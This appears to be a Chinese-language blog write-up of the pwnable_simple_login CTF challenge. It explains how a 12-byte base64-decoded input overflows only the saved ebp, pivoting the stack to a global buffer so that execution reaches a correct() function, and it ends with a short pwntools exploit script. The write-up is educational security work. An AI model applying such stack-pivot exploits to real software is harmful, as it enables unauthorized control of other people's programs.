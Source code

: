 ```yaml
---
title: pwnable_simple_login
tags: [ctf-pwn,exp]
date: 2023-4-24 11:52:00
categories: [ctf-pwn]
excerpt: 只能溢出到ebp，无法溢出返回地址
---
```


**题目**

https://buuoj.cn/challenges#pwnable_simple_login

**方法**

程序流程

1. 读入一个字符串，进行base64解密
2. 解密结果不能超过12字节
3. 对解密结果进行md5加密，比对加密结果
4. 执行system

main函数读取char30的输入显然是没有漏洞的

![](/img/pwnable_simple_login/1.jpg)

B64Decode这个函数我也没太看懂，BIO_XXX这些函数我也不了解，就当它解码出来了吧（

然后把解码的内容放到input这个全局变量里，然后在auth的时候又使用了这个input

![](/img/pwnable_simple_login/2.jpg)

auth里v4只有8字节，因此可以使用12字节的input溢出到ebp里



能够只溢出ebp就能控制执行流程的原理在于，此函数返回之后，上一级函数的栈底会被修改，而程序会通过自定义的这个栈底地址，+4去找到这个上级函数的返回地址，因此变相实现了返回地址的控制。

本题目中将ebp指向input，那么input+4设置为correct函数地址就可以完成溢出

另外，correct会验证前input前四个字节是不是deadbeef，因此payload由`0xdeadbeef`，`correct_addr`，`inputs_addr`三部分组成。

**exp**

```python
from pwn import *
from LibcSearcher import *

p = process('./login')

correct = 0x804925f
inputs = 0x811eb40
payload = base64.b64encode(p32(0xdeadbeef) + p32(correct) + p32(inputs))
p.recv()
sleep(0.5)
p.sendline(payload)
sleep(0.5)
p.interactive()
```


